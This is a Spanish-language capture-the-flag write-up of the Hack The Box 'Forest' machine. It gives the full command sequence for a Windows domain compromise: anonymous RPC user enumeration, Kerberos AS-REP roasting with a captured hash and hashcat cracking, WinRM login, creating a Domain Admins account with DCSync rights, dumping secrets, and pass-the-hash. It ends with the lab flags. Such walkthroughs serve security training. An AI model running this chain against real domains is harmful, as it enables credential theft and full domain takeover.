

Writeups para CTF's
La maquina Forest es un equipo Windows Server en la cual el serivicio RPC permite obtener los usuarios activos sobre el equipo windows, usando los usuarios del servicio RPC se realiza un ataque de fuerza bruta al servicio de autenticación Kerberos.
Informacion Basica
Al realizar un escaneo completo sobre el equipo remoto se detectan multiples servicios en ejecucion entre los principales se encuentran el servicio DNS sobre el puerto 53, el servicio de autenticación Kerberos sobre el puerto 88 y el servicio HTTPS SOAP ejecutando en el puerto 5985
nmap 10.10.10.161 -p- -n -sT -sC -sV --open -T5 --min-rate 5400 Al obtener una sesion con el servidor remoto usando el servicio RPC ejecutando sobre el puerto 135 podemos obtener los usuarios activos en el equipo remoto
rpcclient 10.10.10.116 -U "" -NCon los usuarios listados y el dominio del equipo remoto obtenido con el escaneo de nmap se puede generar una lista de los usuario para ser validados contra el servicio de autenticación Kerberos
lista de usuarios
$331000-VK4ADACQNUCA@htb.local
SM_2c8eef0a09b545acb@htb.local
SM_ca8c2ed5bdab4dc9b@htb.local
SM_75a538d3025e4db9a@htb.local
SM_681f53d4942840e18@htb.local
SM_1b41c9286325456bb@htb.local
SM_9b69f1b9d2cc45549@htb.local
SM_7c96b981967141ebb@htb.local
SM_c75ee099d0a64c91b@htb.local
SM_1ffab36a2f5f479cb@htb.local
HealthMailboxc3d7722@htb.local
HealthMailboxfc9daad@htb.local
HealthMailboxc0a90c9@htb.local
HealthMailbox670628e@htb.local
HealthMailbox968e74d@htb.local
HealthMailbox6ded678@htb.local
HealthMailbox83d6781@htb.local
HealthMailboxfd87238@htb.local
HealthMailboxb01ac64@htb.local
HealthMailbox7108a4e@htb.local
HealthMailbox0659cc1@htb.local
sebastien@htb.local
lucinda@htb.local
svc-alfresco@htb.local
andy@htb.local
mark@htb.local
santi@htb.local
Con la lista de usuarios lista se puede realizar un ataque de "fuerza bruta" al servicio de autenticación Kerberos para obtener un ticket de autenticación
kerbrute userenum --dc 10.10.10.161 -d htb.local accounts.txtUNa vez validados los usuarios que activos en el equipo remoto se pueden usar para un ataque de tipo "ASREPRoast" el cual es una tecnica que de lo usuarios de servicio que cuentan con el atributo DONT_REQ_PREAUTH activo lo cual indica que NO requiere pre-autenticación en kerberos para obtener un ticket de servicio.
Usando Hashcat podemos obtener el password obtenido asosiado al ticket obtenido para el usuario de
servicio "svc-alfresco@htb.local"
Ticket Obtenido
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:5b2e6a058c0e695ba39a690391a4a4ef$576e05b9db453ab0057cae0f7dd08a0f8b1844541e339937d378c6135dbb4650a1c7d171fd1f590c8368cce0501d316b17d54b813e2194c8886b65db348de75caa190bfcf4992ae6b2995e495c352a6af27a45eacadc34d4f0aaa521ae1eebf753d00b2d3c519afbcaaeddc372bedbb1b6648d80c712c26b5a6e404da3ba08fce040492402fc83c51987bccb525cee3a60723e0b1f991d101528ea080fdc0fab43ceab52ace971023e057559c8e066a03770fe620a6da06ca7f264bceeeb7ede265f3683aae1af2885df78fdd5d3a29d64d985145e9c3e4b5acd14abcb733d5efe067821c18a
Obteniendo el password
hashcat -m 18200 -a 0 test.txt /usr/share/wordlists/rockyou.txtEl password del usuario de servicio
svc-alfresco : s3rvice
Con la herramienta crackmapexec podemos validar las credenciales obtenidas
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'Las credenciales son validas pero no funcionan para ingresar al equipo usando SMB ya que no contamos con permisos de escritura sobre los archivos compartidos
psexec.py svc-alfresco:s3rvice@10.10.10.161Usando la herramienta evil-winrm podemos explotar el servicio HTTPS SOAP que esta ejecutando sobre el puerto 5985. lo que nos concedera acceso al equipo remoto
evil-winrm --ip 10.10.10.161 -u "svc-alfresco" -p's3rvice'El usurio svc-alfrescose encuentra dentro del grupo "Exchange Windows Permissions" lo que le permite
realizar ataques
de tipo DCSync usando el script de Powershell PowerView.ps1
Obtenemos el script del siguiente enlace
git clone https://github.com/PowerShellMafia/PowerSploit -b dev
cargamos el script e importamos los modulos de powershell en el equipo remoto
upload PowerView.ps1Una vez los modulos importados se genera un usuario dentro del equipo remotro que sera agregado al grupo
de administradores de dominio
Crecion de usuario
$SecPassword = ConvertTo-SecureString 'r@nger.' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\porro', $SecPassword)
New-DomainUser -SamAccountName porro -Description 'my test' -AccountPassword $SecPassword
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'porro' -Credential $Cred
add-DomainObjectAcl -Credential $Cred -TargetIdentity “DC=htb,DC=local”-PrincipalIdentity porro -Rights DCSync
secretsdump.py htb.local/porro:'r@nger.'@10.10.10.161
Con la herramienta pth-winexe y el hash del usuario administrador que se ha obtenido se puede obtener una conexion al servidor remoto
pth-winexe -U htb.local/Administrator%aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 //10.10.10.161 cmd.exe
Usuario
C:\Users>type svc-alfresco\Desktop\user.txt
e5e4e47ae7022664cda6eb013fb0d9edAdministrador
C:\Users>type Administrator\Desktop\root.txt
f048153f202bbb2f82622b04d79129cc